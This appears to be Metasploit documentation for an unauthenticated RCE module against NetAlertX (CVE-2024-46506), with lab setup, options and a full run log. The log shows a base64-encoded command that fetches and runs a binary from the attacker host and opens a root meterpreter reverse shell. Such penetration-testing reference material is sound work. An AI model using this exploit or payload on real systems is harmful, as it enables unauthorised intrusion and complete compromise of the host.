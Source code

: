 ## Vulnerable Application

An attacker can update NetAlertX settings with no authentication, which results in RCE.

The vulnerability affects:

    * v23.01.14 <= NetAlertX <= v24.9.12

This module was successfully tested on:

    * NetAlertX v24.9.12 installed with Docker on Ubuntu 22.04


### Installation

1. `docker pull jokobsk/netalertx:24.9.12`

2. docker run
```bash
docker run --rm --network=host \
  -v /tmp/netalertx:/app/config \
  -v /tmp/netalertx:/app/db \
  -e TZ=Europe/Berlin \
  -e PORT=20211 \
  jokobsk/netalertx:24.9.12
```


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/netalertx_rce_cve_2024_46506`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options
### WAIT (required)
Wait time (seconds) for the payload to be set. Default is `75`.

### CLEANUP
Restore DBCLNP_CMD to original value after execution. Default is `true`.


## Scenarios
```
msf > use exploit/linux/http/netalertx_rce_cve_2024_46506
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/http/netalertx_rce_cve_2024_46506) > options

Module options (exploit/linux/http/netalertx_rce_cve_2024_46506):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CLEANUP  true             no        Restore DBCLNP_CMD to original value after execution
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    20211            yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host
   WAIT     75               yes       Wait time (seconds) for the payload to be set


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      GXIuXvsu         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.0.12     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf exploit(linux/http/netalertx_rce_cve_2024_46506) > run lhost=192.168.56.1 rhost=192.168.56.17
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 24.9.12 detected.
[*] Sent request to update DBCLNP_CMD to '/bin/bash -c echo${IFS}Y3VybCAtc28gLi9QWHhyY3hFRCBodHRwOi8vMTkyLjE2OC41Ni4xOjgwODAvRy04Zjhua29IMGRUWkdQc052UzIzZztjaG1vZCAreCAuL1BYeHJjeEVEOy4vUFh4cmN4RUQmc2xlZXAgNztybSAtcmYgLi9QWHhyY3hFRA==|base64${IFS}-d|/bin/bash'.
[*] Waiting settings really updated...
[*] Sending stage (3045380 bytes) to 192.168.56.17
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:57510) at 2025-02-10 21:57:30 +0900
[*] Added the payload to the queue. Waiting for the payload to run...
[*] Sent request to update DBCLNP_CMD to 'python3 /app/front/plugins/db_cleanup/script.py pluginskeephistory={pluginskeephistory} hourstokeepnewdevice={hourstokeepnewdevice} daystokeepevents={daystokeepevents} pholuskeepdays={pholuskeepdays}'.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           :  (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
